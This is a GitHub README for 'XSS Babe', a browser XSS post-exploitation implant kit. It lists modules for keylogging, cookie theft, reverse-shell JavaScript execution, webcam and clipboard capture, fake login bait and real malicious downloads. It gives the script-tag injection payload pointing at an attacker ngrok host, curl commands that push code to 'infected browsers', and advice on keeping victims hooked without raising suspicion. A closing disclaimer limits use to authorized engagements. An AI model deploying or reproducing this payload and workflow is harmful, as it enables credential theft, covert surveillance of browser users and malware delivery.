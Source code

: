 # XSS Babe – by ekoms savior

**XSS Babe** is a browser-based red team implant system built entirely in JavaScript and Python. It is designed for ethical cybersecurity research, browser exploitation simulation, and educational purposes. XSS Babe dynamically loads multiple payload modules into a victim's browser using a single script tag.

This tool is ideal for understanding the power of XSS-based post-exploitation, teaching students browser abuse tactics, and building real-time control panels for red team operations.

---

## Features

- Keylogger with live keystroke logging  
- JavaScript-based reverse shell command execution  
- Screenshot capture using HTML2Canvas  
- Fingerprinting (user-agent, screen resolution, timezone)  
- Browser recon and port scanning  
- Clipboard capture  
- Webcam access prompt  
- Browser history profiling  
- Password bait module with fake login form  
- Download button that serves real payloads  
- Cross-tab messaging to capture user activity across tabs  
- Dynamic auto-loader that pulls all modules from the server  
- Optional Discord webhook alerts for real-time victim beacons  
- Dashboard interface for viewing logs  

---

## Prerequisites

- Python 3  
- Pip (`pip3`)  
- A Ngrok account (free) and binary installed  
- A basic understanding of using the terminal  

---

## Installation Instructions

1. **Clone the repository**
   ```bash
   git clone https://github.com/ekomsSavior/xss_babe.git
   cd xss_babe
   ```

2. **Run the setup script**
   This installs dependencies, sets up folders, and starts the Flask server.
   ```bash
   chmod +x setup_repo.sh
   ./setup_repo.sh
   ```

---

##  Ngrok Setup Instructions (Full Walkthrough)

To run XSS Babe over the internet, you’ll need to tunnel the server using **Ngrok**.

** Step 1: Install Ngrok** — Download the binary from [https://ngrok.com/download](https://ngrok.com/download). For Kali Linux or Debian-based systems:  
```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

** Step 2: Sign Up & Get Your Auth Token** — Create a free account at [https://ngrok.com/signup](https://ngrok.com/signup), then copy your token from [https://dashboard.ngrok.com/get-started/setup](https://dashboard.ngrok.com/get-started/setup) and run:  
```bash
ngrok config add-authtoken YOUR_AUTHTOKEN_HERE
```

** Step 3: Start the Flask Server** — From your project directory, run:  
```bash
python3 server.py
```

** Step 4: Start Ngrok Tunnel** — In a new terminal window:
```bash
ngrok http 5000
```

Ngrok will give you a public URL like:
```
https://abc123.ngrok.io
```

Use this domain in all injected payloads and external links.

---

## How to Use the Payload

Once Ngrok is running and you have your public domain:

1. Inject this payload into a vulnerable XSS point:
   ```html
   <script src="https://abc123.ngrok.io/static/x.js"></script>
   ```

2. If you need it URL-encoded:
   ```
   %3Cscript%20src%3D%22https%3A%2F%2Fabc123.ngrok.io%2Fstatic%2Fx.js%22%3E%3C%2Fscript%3E
   ```

This will dynamically load all modules into the victim’s browser, including keylogger, reverse shell, recon, and more.

---

## Viewing Logs and Interacting with Victims

### Live Dashboard

Visit your dashboard from your browser to see logs in real time:
```
https://abc123.ngrok.io/
```

### Command Execution

Send JavaScript to all infected browsers:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "alert('This is a test')"
```

Example of something stealthier:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "document.body.style.background='black'"
```

The shell module fetches commands every 2 seconds and executes them silently.

---

## Maintaining Browser Access

Once a victim is hooked:

- Do not spam alert boxes — this creates suspicion  
- Use the `shell.js` module to run background JS tasks  
- Use `password_bait.js` to simulate login prompts during inactivity  
- Use `tab_messenger.js` to track movement between tabs  
- Avoid reloading the browser tab — that will clear JS execution  
- Track screenshots, clipboard, keystrokes, and tabs in real-time  
- Use Discord webhook alerts to notify you when a browser is hooked  

---

## Using Real Payloads

XSS Babe delivers **real payloads**. You may place the following in your `/payloads` folder:

- `reverse_shell.zip` – zipped payload  
- `chrome_patch.exe` – real malicious binary for simulation  
- `malware_scan_tool.apk` – Android APK for testing on phones  
- `password_list.txt` – used in bait or as decoy  

In `fake_download.js`, change the download URL to your real payload:
```js
window.location = "/payloads/reverse_shell.zip";
```

Use only in controlled environments and with full authorization.

---

## Maintaining XSS Babe

Tips and tricks for best results:

- Restart `server.py` after editing Python or JS files  
- Add or remove modules by editing `static/x.js`  
- Log files are stored in `logs/victims.txt`  
- Add your real payloads to the `/payloads` directory  
- Customize `dashboard.html` to match your engagement branding  
- Keep `.gitignore` in place to avoid pushing payloads or logs to GitHub  
- Check browser CSP headers — some sites block external scripts  
- Use Ngrok TLS (`https://`) to avoid mixed content blocking  

---

## Directory Structure

```
xss_babe/
├── server.py
├── setup_repo.sh
├── .gitignore
├── logs/
│   └── victims.txt
├── payloads/
│   ├── reverse_shell.zip
│   ├── chrome_patch.exe
│   ├── password_list.txt
│   └── malware_scan_tool.apk
├── static/
│   ├── x.js
│   ├── keylogger.js
│   ├── shell.js
│   ├── auto_cookie_steal.js
│   ├── webcam.js
│   ├── clipboard.js
│   ├── fingerprint.js
│   ├── screenshot.js
│   ├── recon.js
│   ├── history.js
│   ├── password_bait.js
│   ├── fake_download.js
│   └── tab_messenger.js
├── templates/
│   └── dashboard.html
```

---

## Ethical Statement

XSS Babe is an offensive security research tool.

It is intended only for use in:
- Your own labs  
- Authorized red team engagements  
- Security training environments  

Never deploy XSS Babe on a live system without explicit written permission. 
Misuse of this tool may be illegal.
the user assumes all risk when using this tool. 
ekomsSavior provides this tool without warranty.

---

